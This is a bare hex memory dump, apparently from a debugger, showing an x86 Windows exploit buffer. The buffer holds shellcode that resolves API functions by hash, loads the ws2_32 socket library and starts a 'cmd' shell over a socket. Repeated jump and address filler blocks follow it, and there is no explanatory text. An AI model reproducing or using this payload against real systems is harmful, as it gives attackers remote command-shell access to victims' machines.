

0138f724  c3611c24 8b64db31 408b3043 1c708b0c
0138f734  08408bad 4e8e685e ff50ec0e 665366d6
0138f744  68323368 5f327377 68d0ff54 3bfcedcb
0138f754  5fd6ff50 8166e589 550208ed d0ff026a
0138f764  f509d968 d6ff57ad 53535353 43534353
0138f774  66d0ff53 664c0468 95e18953 701aa468
0138f784  d6ff57c7 5551106a a468d0ff 57e92ead
0138f794  5553d6ff e568d0ff 57498649 5450d6ff
0138f7a4  d0ff5554 79e76893 ff5779c6 d0ff55d6
0138f7b4  66646a66 896d6368 59506ae5 e789cc29
0138f7c4  e289446a aaf3c031 fe2d42fe 8d932c42
0138f7d4  abab387a fe7268ab 75ff16b3 5bd6ff44
0138f7e4  51515257 51016a51 ff515551 d9ad68d0
0138f7f4  ff53ce05 ffff6ad6 8bd0ff37 c483fc57
0138f804  52d6ff64 ef68d0ff 5360e0ce d0ffd6ff
0138f814  1000ec81 b8e90000 5afffffe 5a454e4f
0138f824  ecebeeeb 71a52020 76e9d768 15555555
0138f834  ecebeeeb 71a52020 76e9d768 15555555
0138f844  ecebeeeb 71a52020 76e9d768 15555555
0138fd44  ecebeeeb 7c951e58 08048378 7ffc37b6
0138fd54  ffffffff 00000022 71a55000 00000004
0138fd64  ceebceeb 71a52020 76e9d768 15555555
0138fd74  ecebeeeb 71a52020 76e9d768 15555555
0138fd84  ecebeeeb 71a52020 76e9d768 15555555
0138fd94  ecebeeeb 71a52020 76e9d768 15555555